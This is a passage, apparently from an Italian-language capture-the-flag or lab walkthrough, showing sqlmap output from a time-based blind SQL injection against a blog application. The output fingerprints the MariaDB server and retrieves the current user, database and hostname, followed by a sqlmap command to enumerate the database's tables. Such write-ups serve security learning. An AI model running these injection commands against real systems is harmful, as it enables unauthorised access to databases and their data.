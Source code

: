 [14:21:29] [WARNING] increasing time delay to 4 seconds
[14:21:39] [ERROR] invalid character detected. retrying..
[14:21:39] [WARNING] increasing time delay to 5 seconds
.15-
[14:23:38] [ERROR] invalid character detected. retrying..
[14:23:38] [WARNING] increasing time delay to 6 seconds
[14:24:15] [ERROR] invalid character detected. retrying..
[14:24:15] [WARNING] increasing time delay to 7 seconds
[14:24:49] [ERROR] invalid character detected. retrying..
[14:24:49] [WARNING] increasing time delay to 8 seconds
[14:25:22] [ERROR] invalid character detected. retrying..
[14:25:22] [WARNING] increasing time delay to 9 seconds
[14:26:05] [ERROR] invalid character detected. retrying..
[14:26:05] [WARNING] increasing time delay to 10 seconds
MariaDB-0+deb11
[14:34:42] [ERROR] invalid character detected. retrying..
[14:34:42] [WARNING] increasing time delay to 11 seconds
u1
web application technology: Nginx 1.18.0, PHP 8.0.24
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
banner: '10.5.15-MariaDB-0+deb11u1'
[14:36:27] [INFO] fetching current user
[14:36:27] [INFO] retrieved: admin
blog@localho
[14:45:07] [ERROR] invalid character detected. retrying..
[14:45:07] [WARNING] increasing time delay to 12 seconds
st
current user: 'blog@localhost'
[14:46:36] [INFO] fetching current database
[14:46:36] [INFO] retrieved: blog
current database: 'blog'
[14:49:35] [INFO] fetching server hostname
[14:49:35] [INFO] retrieved: meta2
hostname: 'meta2'
[14:52:21] [INFO] testing if current user is DBA
[14:52:21] [INFO] fetching current user
current user is DBA: False
[14:52:22] [INFO] fetching database users
[14:52:22] [INFO] fetching number of database users
[14:52:22] [INFO] retrieved: 1
[14:52:35] [INFO] retrieved: 

3) Analizziamo il database "blog":

┌──(kali㉿kali)-[~]
└─$ sqlmap -r 'sql Inject.req'  -p total_service -D blog --tables 
        ___
       __H__                                                                                                                                                                                                                               
 ___ ___[,]_____ ___ ___  {1.6.10#stable}                                                                                                                                                                                                  
|_ -| . ["]     | .'| . |                                                                                                                                                                                                                  
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                               
